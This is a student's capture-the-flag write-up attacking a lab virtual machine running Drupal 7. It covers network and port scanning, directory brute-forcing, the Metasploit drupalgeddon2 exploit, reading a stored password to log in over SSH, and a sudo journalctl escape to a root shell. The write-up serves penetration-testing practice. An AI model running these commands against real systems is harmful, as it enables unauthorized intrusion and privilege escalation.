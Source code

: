 # Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°207 

Goal : find the root Flag.

### 1. Find IP address of the machjine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 2](../images/dbdb62e0e1c5ed3fd7088a391cdb1a9cd4c1e52a818f786f2d4d36a9d44d2690.png)  

Our target is 10.0.2.5. 

The 2 first is VBox address (network and dhcp).

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options.

```bash
$ sudo nmap -p- 10.0.2.5
```
![picture 1](../images/e73bc8b9096a5159631c59bd2426f4de02b3ca41dd097dcd5a26f0dd8eaf51fb.png)  

For more precision on version and services, we can use the following command :

```bash 
nmap -Pn -sC -sV -p- 10.0.2.5
```
![picture 3](../images/9f9cacc3afecd896756c2760e43ec342aa6cdb354b96705a93835491c545faae.png)  

We can see that multiple ports are open (22, 80, 5000, 8081, 9001).

For the port 80, which host a web server, we can dig to find a something in arborescence directory. We will use dirb.

```bash
$ dirb http://10.0.2.5 -w
```
![picture 7](../images/059b96d242b3101a2431a397f418ca384f05011872e9a3883164636274b4185a.png)  

There is 2 files which can be interesting : /index.txt and /robots.txt.

In robots.txt, we can find about.html that dirb didn't find.

![picture 8](../images/d9b51a4ca1593f3067c49e15b984d7ffb835eb35522fe5acaf8199ba2f93a019.png)  

They told us to not brute force the vulnerable stuff because it doesn't work everytime.

We can try to search for the CMS like the name of the machine suggest it.

Drupal 7 is used on this machine (we have seen it on second nmap scan).

### 3. Find vulnerabilities

We can use searchsploit to find vulnerabilities on Drupal 7 that we will using with MetaSploit.

```bash
$ searchsploit drupal 7

$ msfconsole

$ search drupal 7
```
![picture 9](../images/e22bce70cb67f8c22d04c49821b1791dd63bd669412888441e8b45eb1304ea13.png)  

![picture 10](../images/9e97cbf808de61c54f70a8a1e598c0595d4c57b2b625082b0beb7afb03889186.png)  

### 4. Exploit

We can test the exploit drupal_drupalgeddon2 which has an "excellent" rank.

```bash
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
```

We need to set the options of the exploit.
To see what attributes are present in the exploit that needed to be set again, we will use the command :

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > options
```

![picture 11](../images/142838e243e9dccfb0d7111135ec40859fb83272127518198e0349c25a88d2b4.png)  

We have to change 3 attributes : RHOSTS, RPORT and LPORT.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 10.0.2.5
rhosts => 10.0.2.5
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport
rport => 80
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 9001
rport => 9001
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 1234
lport => 1234
```

And now, we can run the exploit.

```bash
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

Now that we have an interpretzer, we can use the command "ls" and we can distinguish 2 files with a different last modified date than the other files / directories.

![picture 12](../images/2d63c959c2ae0c892d5460cdd2d4fe737fc1212cad2a37eaae0cd1ed1e477039.png)  

LICENSE.txt has nothing special but misc has some interesting files.

```bash
meterpreter > ls misc
```

After a search, there is a file with different permissions and again, a different last modified date : tyrell.pass.

![picture 13](../images/5704a953278b7be2d2a891c2c79651fcad584d335d10d0c56c82fd5cf8f89dd6.png)  

We find a username and a password to use it on SSH connection.

Now, we can list all users with the home directory.

![picture 14](../images/9c948e7a0dd8dd17aa15f0c2a071822d3f37b9ce5be342bc983a6c4faf122103.png)  

tyrell and ghost are empty but Elliot directory has a file named user.txt but we don't have the permission to read it.

### 5. SSH connection

Now that we have credentials :

```bash
Username: tyrell
Password: mR_R0bo7_i5_R3@!_
```

We can try to connect with these credentials on SSH connection.

![picture 15](../images/9cd3f862d06258f42786eaf807d826305bab2ca5b1478d1a5ebaa812705f6cf6.png)  

But tyrell cannot do a "sudo bash" to get a root shell.

![picture 16](../images/6838ea1c55cce90af94b36c33454b96ba54f4ee507afc2d8e9572c02f230c158.png)  

To gain root access, I GTFOBins find a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

[journalctl](https://gtfobins.github.io/gtfobins/journalctl/) can be used to gain root access.

```bash
tyrell@vuln_cms:~$ sudo /bin/journalctl

!/bin/sh
```
And with that, you have root access.